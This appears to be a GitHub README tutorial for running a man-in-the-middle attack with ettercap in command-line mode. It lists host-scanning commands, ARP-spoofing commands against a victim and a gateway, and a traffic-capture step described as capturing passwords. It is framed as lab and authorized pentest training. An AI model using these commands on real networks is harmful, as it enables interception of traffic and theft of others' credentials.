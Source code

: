 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```
##Example:
```bash
sudo ettercap -T -M arp:remote /192.168.0.105/ /192.168.0.1/ -i eth0
```

## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.


##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice


